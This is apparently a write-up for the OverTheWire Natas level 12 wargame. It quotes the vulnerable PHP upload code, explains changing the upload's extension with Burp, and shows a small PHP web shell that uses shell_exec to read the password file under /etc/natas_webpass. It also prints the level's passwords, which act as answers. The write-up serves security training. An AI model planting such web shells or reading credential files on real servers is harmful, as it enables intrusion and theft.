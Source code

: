 # Natas Level 12
The ***URL*** to which you need to connect is *http://natas12.natas.labs.overthewire.org*. The ***username*** is *natas12* and the ***password*** is *EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3*. 

Lets check the [viewsource](http://natas12.natas.labs.overthewire.org/index-source.html) link.
```php
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
By analysing the php script we can inject some malicious scipts, But we've to use burp to change the extension :
```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
Lets upload script.php
```php
<? echo shell_exec('pwd'); ?>
# /var/www/natas/natas12/upload
```
```php
# You can use find command to find the password for this level but I expect that they are in the same dir
<? echo shell_exec('cat /etc/natas_webpass/natas13'); ?>
```

![Capture](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Natas/Captures/Capture5.PNG)

```
The password for natas13 is jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```
